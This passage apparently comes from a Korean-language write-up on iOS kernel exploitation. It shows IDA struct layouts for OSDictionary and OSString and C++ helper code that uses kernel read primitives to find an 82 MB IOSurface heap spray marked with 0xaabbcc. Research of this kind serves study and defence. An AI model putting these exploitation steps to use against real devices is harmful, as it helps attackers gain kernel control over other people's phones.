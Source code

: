 그리고 OSDictionary::dictEntry 구조체 중 `key` 필드의 타입은 OSString로부터 상속받으며, 
필드에 차례로 접근하여 OSString 구조체의 `string` 필드를 읽었을때, 
0xaabbcc라는 값으로 데이터를 사전에 써놨기에 서로 일치하면 우리가 할당한 영역이라고 더더욱 확신활 수 있다.

```cpp
00000000 struct OSDictionary::dictEntry // sizeof=0x10
00000000 {
00000000     const OSSymbol *key;
00000008     const OSMetaClassBase *value;
00000010 };

00000000 struct __cppobj OSSymbol : OSString // sizeof=0x18
00000000 {
00000018 };

00000000 struct __cppobj OSString : OSObject // sizeof=0x18
00000000 {                                       // XREF: OSSymbol/r
00000000                                         // sub_FFFFFFF005C609D4/r
0000000C.0   unsigned __int32 flags : 14;
0000000C.14  unsigned __int32 length : 18;
00000010     char *string;
00000018 };
```

따라서 IOSurface를 활용하여 할당된 82MB 데이터가 존재하는지 
확인시키는 코드는 다음과 같다.

```cpp
#if ENABLE_HELPER
    //helper; find our sprayed IOSurface data
    uint64_t userspaceValueDicts = userdict_from_IOSurface();
	INFO("IOSurface's userspaceValueDicts: 0x%llx\n", userspaceValueDicts);
    struct kOSDict *dict = kernel_fetch_dict(userspaceValueDicts);
    uint64_t osdict_entry = 0;
    
    for (int i = 0; i < dict->count; i++) {
		if(dict->items[i].value) {
            uint32_t osdict_count = kread32(dict->items[i].value + off_osdictionary_count);
	        uint32_t osdict_capacity = kread32(dict->items[i].value + off_osdictionary_capacity);
            osdict_entry = kread64(dict->items[i].value + off_osdictionary_dictionary);

            if(osdict_capacity == (82 MB / 0x10)) {
                uint64_t osdictentry_key = kread64(osdict_entry + off_osdictentry_dict);  
                uint64_t osdict_kbuffer = kread64(osdictentry_key + off_osstring_string);
                
                if(kread32(osdict_kbuffer) == 0xaabbcc) {
                    SUCCESS("Found our 1st sprayed IOSurface data!\n");
                    INFO("OSDict from userspaceValueDicts[%u] = 0x%llx\n", i, dict->items[i].value);
                    INFO("osdict_count = 0x%x, osdict_capacity = 0x%x, osdict_entry = 0x%llx\n", osdict_count, osdict_capacity, osdict_entry);
                    INFO("osdictentry_key = 0x%llx\n", osdictentry_key);
                    INFO("osdict_kbuffer = 0x%llx -> 0x%x\n", osdict_kbuffer, kread32(osdict_kbuffer));
                    break;
                }
            }
		}
    }
    // getchar();
    //
#endif
```
